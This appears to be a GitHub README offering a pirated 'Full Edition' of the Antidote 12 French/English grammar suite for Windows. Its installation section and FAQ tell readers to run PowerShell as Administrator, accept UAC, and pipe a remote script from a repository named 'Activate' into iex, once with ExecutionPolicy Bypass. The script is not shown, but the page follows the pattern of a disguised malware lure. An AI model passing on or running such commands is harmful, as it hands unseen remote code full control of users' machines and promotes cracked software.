

<div align="center">


<br>


# Antidote 12 French English Grammar Pro Edition
**French & English · Grammar · Writing assistant**
<br>
Premium · Full Edition · Windows



**Antidote 12 language suite with French and English grammar checking, spelling correction, and style guides for professional writing on Windows.**

</div>

---

> Complete bilingual writing assistant — grammar, spelling, typography, and style guides for French and English documents.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- 📝 **Grammar check** — Deep analysis for French and English text.
- 📖 **Dictionaries** — Comprehensive bilingual definitions and synonyms.
- ✍️ **Style guides** — Typography, punctuation, and clarity recommendations.
- 🔗 **Integrations** — Works with Word, Outlook, Chrome, and major editors.
- 🖥️ **Windows native** — Optimized for Windows 10 and 11 64-bit.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 4 GB minimum |
| **Disk** | 2 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 4 GB minimum, 2 GB free space.
</details>


TAGS
antidote, grammar, writing, french, english, productivity, language, windows
